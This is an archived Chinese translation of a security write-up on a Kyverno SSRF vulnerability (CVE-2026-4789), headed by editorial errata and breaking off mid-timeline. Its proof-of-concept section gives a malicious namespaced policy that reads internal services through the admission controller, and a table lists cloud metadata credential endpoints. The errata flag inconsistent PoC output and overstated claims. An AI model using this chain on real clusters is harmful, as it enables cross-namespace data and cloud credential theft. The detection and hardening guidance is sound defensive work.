

# 打破K8s命名空间隔离：CVE-2026-4789 Kyverno漏洞详解

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Kyverno CEL HTTP SSRF CVE-2026-4789
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：AWS元数据无令牌绝对断言与后文IMDSv2相冲突，Azure需Metadata header/有效resource及身份，云凭据权限不必然突破全部云边界；PoC messageExpression为EXFILTRATED却输出SSRF_LEAKED，应解释脚本与摘录版本差异；维护者PR已合并但未发布和>=1.16.0仅2026-04-13历史状态，标题版本范围应补修复上界
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 主动纠正PR:N与实际策略创建PR:L且区分私有/公开GHSA与旧代码路径，官方PR/CERT/原研究齐全值得保留
2. namespace本身不是网络隔离边界，RBAC管API不管普通服务，称完全绕过RBAC容易误解为自动携带cluster-admin凭据
3. cluster-scoped策略创建可由细分RBAC授予，不必然需cluster-admin
4. 内部Service/元数据可达受NetworkPolicy/CNI/节点配置约束，echo已知占位符测试不能证明真实秘密跨租户泄漏
5. AWS元数据无令牌绝对断言与后文IMDSv2相冲突，Azure需Metadata header/有效resource及身份，云凭据权限不必然突破全部云边界
6. YAML、kubectl、Go和SIEM示例全挤一行含注释吞代码，无法直接复制
7. PoC messageExpression为EXFILTRATED却输出SSRF_LEAKED，应解释脚本与摘录版本差异
8. 维护者PR已合并但未发布和>=1.16.0仅2026-04-13历史状态，标题版本范围应补修复上界
9. 多处#PR空链接和通用CNAPP引用不支持严重性断言，检测允许kube-system却PoC恰攻击kube-system应基于实际准许目的地

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

Dubito
                    Dubito  云原生安全指北   2026-04-13 00:35  
  
   
  
> 注：本文翻译自 ORCA Security 的文章  
《Kyverno SSRF: Breaking Kubernetes Namespace Isolation (CVE-2026-4789)》[1]  
，可点击文末“阅读原文”按钮查看英文原文。  
  
  
全文如下：  
## 摘要  
  
Kyverno 1.16.0 及更高版本中存在一个严重的 SSRF（Server-Side Request Forgery，服务端请求伪造，指攻击者诱使服务器以其身份发起 HTTP 请求）漏洞。拥有 Namespace 范围权限的用户可迫使 Kyverno 准入控制器（Admission Controller）Pod 发起任意 HTTP 请求，从而完全绕过 Kubernetes RBAC 机制。这将导致攻击者能够访问集群内部服务、窃取跨 Namespace 数据，并通过元数据端点（Metadata Endpoint）窃取云服务凭证。目前尚未观测到该漏洞被主动利用。修复代码已合并至 Kyverno 主分支（PR [#15789](https://github.com/kyverno/kyverno/pull/15789)  
，2026 年 4 月 6 日），但尚未发布包含补丁的正式版本。  
  
**注：**  
NVD 评估向量显示为 PR:N（无需任何权限）[2]  
。但实际上，漏洞利用需要具备 Namespace 范围内的策略创建权限（PR:L），除此之外无需额外的身份认证。  
  
<table><thead><tr><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">属性</span></section></th><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">详情</span></section></th></tr></thead><tbody><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">CVE 编号</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><strong style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: inherit;color: rgba(255, 143, 38, 1);font-weight: bold;"><span leaf="">CVE-2026-4789</span></strong></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">严重性</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><strong style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: inherit;color: rgba(255, 143, 38, 1);font-weight: bold;"><span leaf="">严重（CVSS 9.8，NVD）</span></strong></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">CWE 类型</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">CWE-918（服务端请求伪造）</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">受影响版本</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">&gt;= 1.16.0</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">所需权限</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">低（Namespace 范围内的策略创建权限）</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">利用复杂度</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">低</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">是否正被积极利用</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">否</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">修复可用性</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">修复已合并至主分支（PR <a class="wx_topic_link" topic-id="mnvrqowh-rysk43" style="color: #576B95 !important;" data-topic="1" data-recommend="">#15789</a>，4 月 6 日）。尚无带补丁的正式版本（最新版为 1.17.1）。</span></section></td></tr></tbody></table>  


## 一、什么是 Kyverno？  
  
Kyverno 是一款   
Kubernetes 原生策略引擎[3]  
，以动态准入控制器（Admission Controller）形式运行。准入控制器是一个在 API 请求持久化至 Kubernetes API Server 之前对其进行拦截的组件，可用于验证、修改或拒绝请求。企业通常使用 Kyverno 来强制执行 Pod 安全标准（Pod Security Standards）、校验镜像签名及确保合规性。  
  
Kyverno 支持两类策略：集群范围策略（Cluster-scoped Policies，需具备 cluster-admin  
 权限方可创建）和命名空间策略（Namespaced Policies，可将管理权限下放至 Namespace 管理员）。其安全模型假定命名空间策略的作用域仅限于其所属的 Namespace。该漏洞打破了这一假定。  
## 二、深入剖析：漏洞代码详情  
  
Kyverno 1.16.0 引入了基于 CEL 的策略支持。CEL（Common Expression Language，通用表达式语言）是一种用于 Kubernetes 内联策略逻辑的轻量级表达式语言。相关 http.Get()  
 和 http.Post()  
 函数也随之引入。漏洞根源在于策略编译器（Policy Compiler）初始化 HTTP 库的方式存在缺陷。  
### 2.1 安全机制的不一致性  
  
对比 Kyverno 两个 CEL 库在处理 Namespace 作用域时的差异：  
  
**resource.Lib —— 安全（强制执行 Namespace 隔离）**  
```
resource.Lib(    resource.Context{ContextInterface: libsctx},    namespace,  // 强制执行 namespace 参数    resource.Latest(),)
```  
  
**http.Lib —— 存在漏洞（未强制执行 Namespace 隔离）**  
```
http.Lib(    http.Context{ContextInterface: http.NewHTTP(nil)},    http.Latest(),  // 无 namespace 参数，无 URL 校验)
```  
  
resource.Lib  
 接收 namespace  
 参数并据此限制访问范围。http.Lib  
 则未接收此类参数。这种不一致性是根本原因：一个库在设计时考虑了 Namespace 隔离，而另一个库则没有。  
### 2.2 存在漏洞的函数  
  
**位置：**  
 pkg/cel/libs/http/http.go（现位于 kyverno/sdk 中）  
```
func (r *contextImpl) Get(url string, headers map[string]string) (any, error) {    req, err := http.NewRequestWithContext(context.TODO(), "GET", url, nil)    // 直接使用了 url —— 未做任何校验    // 无针对 169.254.169.254 的黑名单机制    // 无 Namespace 限制    // 无目标地址检查    for k, v := range headers {        req.Header.Add(k, v)    }    resp, err := r.client.Do(req)    ...}
```  
## 三、为何这会破坏 Namespace 隔离机制  
  
**关键洞见：**  
 问题的关键在于 HTTP 请求的 **发起位置**  
，而非策略的 **编写者**  
。  
  
当命名空间策略调用 http.Get()  
 时，请求并非以策略编写者的身份执行，而是从 Kyverno 准入控制器（Admission Controller）Pod 发出。该 Pod 通常运行在   
kyverno  
 Namespace[4]  
 中，并具有特殊的网络位置优势：  
- • **集群范围网络访问能力：**  
 可通过 http://service.any-namespace.svc.cluster.local  
 访问任意 Service。  
  
- • **云元数据访问能力：**  
 可访问 http://169.254.169.254/…  
（云厂商的实例元数据服务）。  
  
- • **RBAC 绕过：**  
 HTTP 请求属于网络调用，而非 Kubernetes API 调用。Kubernetes RBAC（Role-Based Access Control，基于角色的访问控制，用于管理通过 API 执行操作权限的系统）对原始网络流量不产生约束。  
  
这也解释了  
此漏洞为何属于严重级别[5]  
。本应仅在其自身  
命名空间  
内拥有权限的  
命名空间  
管理员，现在可以触及 Kyverno Pod 网络栈能够访问的任何目标。“命名空间范围”与“集群范围”之间的信任边界已然瓦解。  
## 四、概念验证（PoC）步骤详解  
> 测试环境：Kyverno v1.16.2、Helm Chart 3.6.2、Kubernetes v1.35.0  
  
### 4.1 第一步：验证攻击者无权访问 kube-system  
```
$ kubectl auth can-i get pods -n kube-system \    --as=system:serviceaccount:attacker-ns:namespace-adminno
```  
```
$ kubectl auth can-i get services -n kube-system \    --as=system:serviceaccount:attacker-ns:namespace-adminno
```  
### 4.2 第二步：创建恶意命名空间策略  
  
攻击者在其自身  
命名空间  
中创建一个 NamespacedValidatingPolicy  
 资源。此操作仅需 Namespace 级别权限，无需 cluster-admin  
 权限：  
```
apiVersion: policies.kyverno.io/v1beta1kind: NamespacedValidatingPolicymetadata:  name: cel-ssrf-exploit  namespace: attacker-nsspec:  matchConstraints:    resourceRules:      - apiGroups: [""]        resources: ["configmaps"]        operations: ["CREATE"]  variables:    - name: stolenData      expression: |        http.Get('http://internal-api.kube-system.svc.cluster.local')  validations:    - expression: "false"      messageExpression: |        'EXFILTRATED: ' + string(variables.stolenData)
```  
### 4.3 第三步：触发策略并观察泄露数据  
```
$ kubectl create configmap trigger --from-literal=x=y -n attacker-ns \    --as=system:serviceaccount:attacker-ns:namespace-admin
```  
  
**结果（来自在 kube-system 中部署了测试 Service 的 kind 集群 PoC 验证）：**  
```
error: failed to create configmap: admission webhook"nvpol.validate.kyverno.svc-fail" denied the request:SSRF_LEAKED: secret=STOLEN_INTERNAL_SECRET_12345token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```  
  
此 PoC 脚本在 kube-system  
 中设置了一个测试 Service（基于 hashicorp/http-echo  
），其中包含已知的占位符值，随后利用漏洞将其窃取。攻击者虽对 kube-system  
 的 RBAC 访问权限为零，但仍成功从 Kyverno Pod 向另一个  
命名空间  
中的内部服务发起了 HTTP 请求。响应数据被回显在准入 Webhook 的错误信息中。完整的自动化 PoC 脚本创建一个 kind  
 集群、安装 Kyverno，并端到端地演示完整的漏洞利用链。  
## 五、云元数据：关键风险所在  
  
云元数据端点（即位于 169.254.169.254 的内部 HTTP 服务，云厂商通过它向虚拟机分发凭证和配置信息）仅依据网络位置进行身份认证。只要你的 Pod 能访问该端点，就能获取凭证。无需密码、无需令牌、无需任何认证流程。这是云厂商的既定设计。  
  
这意味着，在托管于云上的 Kubernetes 集群中，利用此 SSRF 漏洞的攻击者可能窃取到临时云凭证（AWS 上的 IAM 角色密钥、GCP 上的服务账号令牌、Azure 上的托管身份令牌）。这些凭证可使攻击者进一步横向移动，甚至完全跳出集群边界，访问云上的其他资源。  
  
<table><thead><tr><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">云厂商</span></section></th><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">凭证端点</span></section></th><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">认证方式</span></section></th></tr></thead><tbody><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">AWS</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">http://169.254.169.254/latest/meta-data/iam/security-credentials/</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">无</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">GCP</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">仅需特定 Header</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">Azure</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">无</span></section></td></tr></tbody></table>  


## 六、准入控制器作为 SSRF 目标：一种更广泛的模式  
  
此漏洞不仅仅是 Kyverno 的缺陷，更揭示了一种结构性的攻击模式。防御者应对任何接受用户自定义逻辑的准入控制器或策略引擎保持警惕。以下三个特性的叠加构成了 SSRF 风险：  
- • **特权网络位置：**  
 准入控制器运行在集群内部，通常具备广泛的出站访问权限。它们是受信任的基础设施组件，而非普通用户工作负载。  
  
- • **用户可控的输入触发网络调用：**  
 当策略语言允许表达式解析为 HTTP 请求时（例如 CEL 的 http  
 函数、API 调用、外部数据查询），用户提供的内容就可能影响控制器的连接目标。  
  
- • **响应信息回显：**  
 错误消息、审计日志及校验响应可能会将请求获取到的内容泄露回攻击者。  
  
这种模式不仅限于 Kyverno。任何同时满足“以集群级别网络访问权限运行”和“评估用户提供的、可触发出站请求的表达式”这两个条件的 Kubernetes 组件，都应接受 SSRF 审计。以下组件值得以此视角进行审视：OPA/Gatekeeper 中 Rego 语言的 http.send  
 函数、Falco 的插件系统，以及包含模板化外部调用的自定义 Webhook 服务器。  
  
核心设计问题在于：是否应允许命名空间（委派的）策略从特权组件发起出站 HTTP 请求？ 在 Kyverno 的案例中，http.Lib  
 的加入或许是为了支持合法用例（例如从 CEL 表达式中调用外部校验 API）。但该功能在发布时既未附带 URL 限制，也未实现 Namespace 感知的作用域控制，更未区分集群范围策略与命名空间策略的上下文差异。缓解补丁（PR [#15729](https://github.com/kyverno/kyverno/pull/15729)  
）通过有条件地对命名空间策略禁用 http.Lib  
 来解决此问题，同时保留集群范围策略对该功能的访问。一个完整的修复方案还需在 kyverno/sdk  
 库层面增加 URL 校验逻辑。  
## 七、检测与威胁狩猎指南  
### 7.1 审计现有策略  
  
搜索使用了 HTTP 函数的命名空间策略：  
```
# 查找使用 http.Get 或 http.Post 的策略kubectl get namespacedvalidatingpolicies -A -o yaml | \  grep -E "http\.(Get|Post)"kubectl get namespaceddeletingpolicies -A -o yaml | \  grep -E "http\.(Get|Post)"
```  
### 7.2 监控 Kyverno Pod 的出站流量  
  
观察从 Kyverno 准入控制器（Admission Controller）发往其本不应访问的目标地址的连接：  
- • 169.254.169.254  
（云元数据服务）  
  
- • 除 kyverno  
 或 kube-system  
 以外的其他  
命名空间  
中的 Service  
  
- • 策略评估窗口期内访问的外部目标地址  
  
### 7.3 日志分析  
```
# Splunk/SIEM 伪代码示例index=kubernetes sourcetype=kyverno| search policy_type="Namespaced*"| search (expression="*http.Get*" OR expression="*http.Post*")| stats count by namespace, policy_name
```  
## 八、纵深防御建议  
- • **为 Kyverno Pod 应用网络策略：**  
 限制来自 kyverno  
   
命名空间  
的出站流量，仅允许其访问 Kubernetes API Server 以及任何必须明确放行的外部服务。大多数 Kyverno 部署场景并不需要任意的出站 HTTP 访问能力。  
  
- • **在网络层阻断元数据端点访问：**  
 使用 NetworkPolicy、iptables 规则或云平台防火墙规则，阻断不需要云凭证的 Pod 对 169.254.169.254  
 的访问。  
  
- • **启用 IMDSv2（AWS）：**  
 IMDSv2 要求在读取任何元数据之前，先通过 HTTP PUT 请求获取会话令牌。由于 SSRF 攻击通常使用 GET 请求，难以轻松完成先 PUT 再 GET 的操作序列，IMDSv2 可显著增加基于 SSRF 窃取凭证的难度（尽管并非在所有场景下都能完全杜绝）。  
  
- • **审计并收紧策略创建相关的 RBAC 权限：**  
 审查哪些主体拥有对 namespacedvalidatingpolicies  
 和 namespaceddeletingpolicies  
 资源的 create  
 权限。若  
命名空间  
管理员不需要使用 CEL HTTP 函数，可考虑通过 RBAC 或准入规则限制对这些 API 资源的访问。  
  
- • **关注修复进展：**  
 跟踪 PR [#15789](https://github.com/kyverno/kyverno/pull/15789)  
（维护者提交的修复）及后续的 Kyverno 版本发布。一旦发布包含补丁的版本，请立即升级。  
  
## 九、修复状态  
  
修复代码已合并至 Kyverno 主分支（PR [#15789](https://github.com/kyverno/kyverno/pull/15789)  
，于 2026 年 4 月 6 日合并）。由 Orca Security 研究团队提交的原始缓解补丁（PR [#15729](https://github.com/kyverno/kyverno/pull/15729)  
）已被维护者关闭。维护者自行实现了一套更为全面的修复方案。维护者提供的修复内容包括：默认对命名空间策略禁用 http.Lib  
；新增 --allowHTTPInNamespacedPolicies  
 开关以支持按需启用；新增 HTTP 黑名单/白名单标志，其默认值覆盖了环回地址、本地链路地址、RFC-1918 私有地址段、云元数据端点及 CGNAT 地址段；此外还包括一致性测试。  
  
**重要提示：**  
 目前尚无任何正式版本包含此修复。最新版本为 1.17.1（2026 年 2 月 19 日发布）。用户应在包含补丁的版本发布后立即升级。在此期间，请应用上文所述的网络策略和 RBAC 缓解措施。  
  
**原始缓解补丁 PR：**  
 https://github.com/kyverno/kyverno/pull/15729 （已关闭）  
  
**维护者修复 PR：**  
 https://github.com/kyverno/kyverno/pull/15789 （已合并至主分支）  
## 十、披露时间线  
  
<table><thead><tr><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">日期</span></section></th><th style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.25em 0.5em;color: #3f3f3f;word-break: keep-all;background: rgba(0, 0, 0, 0.05);"><section><span leaf="">事件</span></section></th></tr></thead><tbody><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-01-29</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">通过 GHSA-rggm-jjmc-3394 提交漏洞报告</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-02-04</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">向维护者跟进询问（未收到回复）</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span 